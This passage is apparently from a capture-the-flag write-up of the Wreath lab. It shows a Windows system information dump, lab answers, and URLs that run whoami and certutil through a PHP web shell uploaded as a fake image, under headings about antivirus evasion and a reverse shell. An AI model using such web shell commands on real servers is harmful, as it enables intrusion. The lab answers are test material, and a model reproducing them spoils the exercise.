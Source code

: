 ```
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,369 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,815 MB
Virtual Memory: In Use:    617 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4580422
                           [02]: KB4512577
                           [03]: KB4580325
                           [04]: KB4587735
                           [05]: KB4592440
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.200.86.1
                                 IP address(es)
                                 [01]: 10.200.86.100
                                 [02]: fe80::b1e7:ce3b:c3c4:a547
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

**What is our current username (include the domain in this)?**

wreath-pc\thomas

```
http://10.200.188.100/resources/uploads/v2.jpg.php?wreath=whoami
```

## Task 41 - AV Evasion Compiling Netcat & Reverse Shell!

**What output do you get when running the command: certutil.exe?**

CertUtil: -dump command completed successfully.

```
http://10.200.188.100/resources/uploads/v2.jpg.php?wreath=certutil.exe 
CertUtil: -dump command completed successfully.
```

## Task 42 - AV Evasion Enumeration

**[Research] One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this?**
